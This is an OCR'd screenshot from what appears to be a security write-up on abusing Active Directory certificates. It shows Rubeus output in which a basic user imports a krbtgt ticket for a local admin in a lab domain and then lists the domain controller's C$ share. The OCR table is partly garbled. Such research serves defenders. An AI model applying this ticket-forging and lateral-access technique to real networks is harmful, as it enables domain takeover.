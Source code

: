 Figure 42 - Rubeus Building the Request

| cmd.exe (running as THESHIRE\basicuser) |  | - × |
| --- | --- | --- |
|  |  | DzIwMጎEwMzA5MDMwMjMxWqcRGA8yMDIxMDMxNjAvMDIzMVgoEBsOVEhFU8hJUkUuTE9DQUypIzAhoAMC N |
| AQKhGjAYGwZrcmJ0Z3QbDnRoZXNoaXJlLmxvY2Fs |  |  |
| [+] Ticket successfully imported! |  |  |
| ServiceName | : | krbtgt/theshire.local |
| ServiceRealm | .. | THESHIRE.LOCAL |
| UserName | .. | localadmin |
| UserRealm |  | : THESHIRE.LOCAL |
| StartTime |  | : 3/8/2021 6:02:31 PM |
| EndTime |  | : 3/8/2021 7:02:31 PM |
| RenewTill | .. | 3/15/2021 7:02:31 PM |
| Flags | .. | name canonicalize, pre authent, initial, renewable, forwardable |
| KeyType |  | : rc4 hmac |
| Base64(key) | .. | a8a3JqLsdjeLMI/fNXLigg == |
| C:\Temp>dir \\dc.theshire.local\C$ |  |  |
| Volume in drive \\dc.theshire.local\C$ has no label. |  |  |
| Volume Serial Number is A4FF-7240 |  |  |
| Directory of \\dc.theshire.local\C$ |  |  |
| 01/04/2021 | 10:43 AM | inetpub <DIR> |
| 05/30/2019 | 02:08 PM | <DIR> PerfLogs |
| 07/23/2020 | 11:01 AM | <DIR> Program Files |
| 05/30/2019 | 03:38 PM | <DIR> Program Files (x86) |
| 03/20/2020 | 11:28 AM | <DIR> RBFG |
| 03/08/2021 | 01:03 PM | <DIR> Temp |
| 03/05/2021 | 10:59 AM | <DIR> Users |
| 03/08/2021 | 05:15 PM | <DIR> Windows |
| 0 File(s) |  | 0 bytes |
| 8 Dir(s) 44,813,033,472 bytes free |  |  |

Authenticating with an Abused Certificate with Rubeus
